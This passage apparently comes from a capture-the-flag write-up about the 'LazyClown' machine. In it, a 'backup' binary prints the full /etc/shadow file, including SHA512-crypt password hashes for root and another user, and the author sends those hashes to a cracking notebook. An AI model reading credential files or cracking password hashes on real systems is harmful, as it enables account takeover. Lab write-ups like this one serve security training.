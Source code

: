 When I run `backup`, it outputs what looks like the contents of
`/etc/shadow`, a file that should only be readable by root:



    mitsos@LazyClown:~$ ./backup 
    root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
    daemon:*:17016:0:99999:7:::
    bin:*:17016:0:99999:7:::
    sys:*:17016:0:99999:7:::
    sync:*:17016:0:99999:7:::
    games:*:17016:0:99999:7:::
    man:*:17016:0:99999:7:::
    lp:*:17016:0:99999:7:::
    mail:*:17016:0:99999:7:::
    news:*:17016:0:99999:7:::
    uucp:*:17016:0:99999:7:::
    proxy:*:17016:0:99999:7:::
    www-data:*:17016:0:99999:7:::
    backup:*:17016:0:99999:7:::
    list:*:17016:0:99999:7:::
    irc:*:17016:0:99999:7:::
    gnats:*:17016:0:99999:7:::
    nobody:*:17016:0:99999:7:::
    libuuid:!:17016:0:99999:7:::
    syslog:*:17016:0:99999:7:::
    messagebus:*:17288:0:99999:7:::
    landscape:*:17288:0:99999:7:::
    mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
    mysql:!:17288:0:99999:7:::
    sshd:*:17288:0:99999:7:::



I took those hashes and threw them into my [Penglab
notebook](https://github.com/mxrch/penglab) to crack. These are SHA512
crypt, and will be very slow to break, but I might as well have it
running in the background while I continue.

![](/img/image-20200729105757325.png)
